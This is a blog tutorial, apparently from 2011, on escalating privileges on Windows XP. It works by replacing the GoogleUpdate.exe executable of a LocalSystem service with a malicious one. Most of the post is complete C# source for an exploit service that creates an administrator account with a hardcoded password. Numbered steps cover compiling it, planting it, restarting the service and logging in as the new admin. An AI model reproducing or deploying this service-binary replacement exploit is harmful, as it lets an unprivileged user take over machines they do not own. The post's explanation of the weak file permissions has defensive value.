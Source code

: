 ```yaml
---
layout: blog-post
title: "Privilege escalation on Windows using Binary Planting"
excerpt: "Privilege escalation on Windows using Binary Planting"
disqus_id: /2011/09/23/privilegeescalation/
location: New Delhi, India
time: 11:00 PM
tags:
- Privilege Escalation
- Windows
---
```


This article is a tutorial on how to trick Windows XP into giving you system privileges using Binary Planting. There have been other previlege escalation methods which are no longer useable:

*  Escalation using at command
* [Escalation using Utilman.exe](http://technet.microsoft.com/en-us/security/bulletin/ms04-019)

Microsoft Windows services, formerly known as NT services, enable you to create long-running executable applications that run in their own Windows sessions. These services can be automatically started when the computer boots, can be paused and restarted, and do not show any user interface. Each service executes in the security context of a user account.

You can specify one of the following special accounts instead of specifying a user account for the service:

* [LocalService](http://msdn.microsoft.com/en-us/library/ms684188.aspx)
* [NetworkService](http://msdn.microsoft.com/en-us/library/ms684272.aspx)
* [LocalSystem](http://msdn.microsoft.com/en-us/library/ms684190.aspx)

LocalSystem has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the NT AUTHORITY\SYSTEM and BUILTIN\Administrators SIDs; these accounts have access to most system objects. 

If you open *services.msc* you can see many Windows services running with **LocalSystem** account. Most of the Windows services run under the process svchost.exe by supplying different command line parameters to it. Now imagine what will happen if we replace svchost.exe with our own custom *svchost.exe* having malicious code. This file replacement will result in privelege escalation and execution of exploit code. This can even happen remotely if you are able to connect to remote machine and replace *svchost.exe*. Fortunately, *svchost.exe* and many of the Windows critical executables are protected by [Windows File Protection] (http://en.wikipedia.org/wiki/Windows_File_Protection)

![](/images/Blog/services.png)  

However, depending on your computer configuration, there will be some other 3rd party services which have been installed and run under the different process. For example, in the screenshot below there is a service called **Google Update service** which runs under LocalSystem account in the process **GoogleUpdate.exe**. This process is generally called from this location **C:\Program Files\Google\GoogleUpdate.exe**.

![](/images/Blog/gpupdate.png)  

Now, even as a restricted user, nobody is stopping me from deleting or replacing this file. If we replace this **GoogleUpdate.exe** with the malicious one and then restart the Google Update Services, no file integrity check is performed by OS or Google Update Services to verify that file being executed is original or malicious. This makes the system vulnerable to be exploited since we can run any malicious code under System account simply by replacing this file and then executing the service, which can be done as restricted user.

![](/images/Blog/gservice.png)  

Here is a simple Windows Service code which produces the executable called **GoogleUpdate.exe** , creates a user and adds it to the Administrators group.

{% highlight csharp %}
namespace Google.MakeAdmin.Exploit
{
    using System;
    using System.Diagnostics;
    using System.ServiceProcess;
    using System.DirectoryServices;

    public partial class MakeAdmin : ServiceBase
    {
        private readonly string sSource;
        private readonly string sLog;        

        /// <summary>
        /// Initializes a new instance of the <see cref="MakeAdmin"/> class.
        /// </summary>
        public MakeAdmin()
        {
            InitializeComponent();
            sSource = "Google.MakeAdmin.Exploit";
            sLog = "Application";
        }

        /// <summary>
        /// When implemented in a derived class, executes when a Start command is sent to the service by the 
        /// Service Control Manager (SCM) or when the operating system starts (for a service that starts automatically). 
        /// Specifies actions to take when the service starts.
        /// </summary>
        /// <param name="args">Data passed by the start command.</param>
        protected override void OnStart(string[] args)
        {
            if (!EventLog.SourceExists(sSource))
            {
                EventLog.CreateEventSource(sSource, sLog);
            }


            const string login = "superboy";
            const string password = "pass@word1";
            const string fullName = "Clark Kent";

            CreateUserAccount(login, password, fullName, true, true);

        }

        /// <summary>
        /// When implemented in a derived class, executes when a Stop command is sent to the service by the 
        /// Service Control Manager (SCM). Specifies actions to take when a service stops running.
        /// </summary>
        protected override void OnStop()
        {
        }

        /// <summary>
        /// Creates the user account.
        /// </summary>
        /// <param name="login">The login.</param>
        /// <param name="password">The password.</param>
        /// <param name="fullName">The full name.</param>
        /// <param name="isAdmin">if set to <c>true</c> [is admin].</param>
        /// <param name="isNew">if set to <c>true</c> [is new].</param>
        private void CreateUserAccount(string login, string password, string fullName, bool isAdmin, bool isNew)
        {
            try
            {
                DirectoryEntry dirEntry = new DirectoryEntry("WinNT://" + Environment.MachineName + ",computer");
                DirectoryEntries entries = dirEntry.Children;
                DirectoryEntry newUser = null;
                if (isNew)
                {
                    newUser = entries.Add(login, "user");
                }
                else
                {
                    newUser = entries.Find(login, "user");
                }

                newUser.Properties["FullName"].Add(fullName);
                newUser.Invoke("SetPassword", password);
                newUser.CommitChanges();

                // Remove the if condition along with the else to create user account in "user" group.
                DirectoryEntry grp;
                if (isAdmin)
                {
                    grp = dirEntry.Children.Find("Administrators", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }
                else
                {
                    grp = dirEntry.Children.Find("Guests", "group");
                    if (grp != null)
                    {
                        grp.Invoke("Add", new object[] {newUser.Path});
                    }
                }

            }
            catch (Exception ex)
            {
                EventLog.WriteEntry(sSource, ex.Message);
            }
        }
    }
}
{% endhighlight %}

##Exploiting the Service running with LocalSystem Account##

1. Compile the file to generate a new service executable named **GoogleUpdate.exe** and replace it with the original file stored at the location **C:\Program Files\Google\GoogleUpdate.exe**
2. Restart the service. This will cause our exploit code to be executed and a new user will be created in the system with Administrator privileges. In my example, user will have login name *superboy* and password *pass@word1*.
3. Try to run the command prompt with the credentials of new user.
![](/images/Blog/runcmd.png)

![](/images/Blog/login.png)

4. The command prompt executed is under the credentials of superboy and has superuser access.

The exploit code can be downloaded from [this](https://github.com/madhur/Google.MakeAdmin.Exploit) github repository.


